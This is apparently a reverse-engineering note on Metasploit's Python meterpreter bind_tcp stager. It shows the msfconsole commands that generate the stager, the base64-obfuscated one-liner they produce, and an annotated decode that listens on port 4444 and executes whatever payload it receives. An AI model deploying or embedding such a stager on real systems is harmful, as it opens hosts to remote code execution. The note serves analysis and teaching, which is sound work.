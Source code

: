 # Metasploit RE

## Stager

See: 
 * https://blog.cobaltstrike.com/2012/09/13/a-loader-for-metasploits-meterpreter/

### python stager sample

Generate with:
```
msf5> use payload/python/meterpreter/bind_tcp
msf5 payload(python/meterpreter/bind_tcp) > generate -f raw -o /tmp/python_stager.py
```

Result:
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw0NDQ0KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
```
Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

Base64 decoded content:
```python
import socket,struct
b=socket.socket(2,socket.SOCK_STREAM)   # 2 = socket.AF_INET
b.bind(('0.0.0.0',4444))
b.listen(1)                             # 1 = backlog, maximum number of queued connections
s,a=b.accept()
l=struct.unpack('>I',s.recv(4))[0]      # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                             # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                         # provide the socket file descriptor as global var 's' to payload in d
```
